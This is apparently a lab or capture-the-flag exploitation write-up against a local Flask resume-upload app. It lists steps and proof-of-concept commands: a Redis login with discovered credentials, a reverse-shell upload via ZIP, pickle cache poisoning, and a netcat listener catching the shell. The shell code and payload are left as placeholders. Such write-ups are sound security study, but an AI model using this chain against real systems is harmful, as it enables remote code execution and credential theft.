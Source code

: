 ```bash

### Phase 5: Exploitation
1. Tested Redis connectivity on port 6379 - SUCCESS
2. Authenticated with discovered credentials - SUCCESS
3. Created reverse shell Python script
4. Uploaded reverse shell via ZIP file through web interface
5. Verified file accessible at /static../resumes/reverse_shell.py
6. Created malicious pickle payload for cache poisoning
7. Started netcat listener on port 4444
8. Injected pickle payload into Redis cache
9. Triggered cache deserialization via HTTP request
10. Received reverse shell connection - COMPLETE RCE

## Proof of Concept

### Exploit Commands
```bash
# 1. Create reverse shell
cat > reverse_shell.py << 'SHELL'
[reverse shell code]
SHELL

# 2. Upload via ZIP
zip malicious.zip reverse_shell.py legitimate_resume.txt
curl -F "file=@malicious.zip" http://localhost:8080/upload

# 3. Create pickle payload
python3 exploit_payload.py

# 4. Poison cache
redis-cli -h localhost -p 6379
AUTH password
SET flask_cache_exploit "[base64_payload]"

# 5. Start listener
nc -lvnp 4444

# 6. Trigger exploitation
curl http://localhost:8080/results/exploit

# 7. Receive reverse shell
[Connection established]
```

## Impact Assessment

### Confidentiality: HIGH
- Complete source code disclosed
- All credentials exposed
- Potential access to user data (resumes)
